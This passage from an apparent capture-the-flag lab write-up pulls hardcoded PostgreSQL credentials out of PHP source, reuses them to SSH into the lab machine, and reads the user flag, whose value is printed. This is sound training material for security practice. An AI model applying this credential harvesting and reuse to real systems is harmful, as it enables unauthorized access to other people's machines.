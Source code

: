 ```console
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }

        catch ( exception $e ) {
          echo $e->getMessage();
        }

(...)
```

A password and username, we can use it to log in via ssh. The shell is constantly dying, so that would be really nice.

User:pass `postgres:P@s5w0rd!`


```
┌──(kali㉿kali)-[~]
└─$ ssh postgres@10.129.28.101
The authenticity of host '10.129.28.101 (10.129.28.101)' can't be established.
ED25519 key fingerprint is SHA256:4qLpMBLGtEbuHObR8YU15AGlIlpd0dsdiGh/pkeZYFo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.28.101' (ED25519) to the list of known hosts.
postgres@10.129.28.101's password: 
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 14 Apr 2022 04:48:18 PM UTC

  System load:  0.0               Processes:             185
  Usage of /:   32.6% of 8.73GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.129.28.101
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

postgres@vaccine:~$ ls
11  user.txt
postgres@vaccine:~$ cat user.txt 
ec9b13ca4d6229cd5cc1e09980965bf7
postgres@vaccine:~$ 
```
